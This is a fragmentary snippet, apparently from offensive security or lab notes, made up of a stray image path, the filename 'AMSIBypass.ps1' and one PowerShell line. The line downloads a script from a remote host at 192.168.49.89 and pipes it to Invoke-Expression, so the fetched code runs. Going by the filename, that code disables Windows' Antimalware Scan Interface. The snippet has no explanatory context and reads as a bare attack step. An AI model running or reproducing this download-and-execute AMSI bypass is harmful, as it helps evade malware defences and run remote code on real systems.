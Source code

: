 AMSIBypass.ps1
```

(new-object net.webclient).downloadstring("http://192.168.49.89/AMSIBypass.ps1") | IEX
```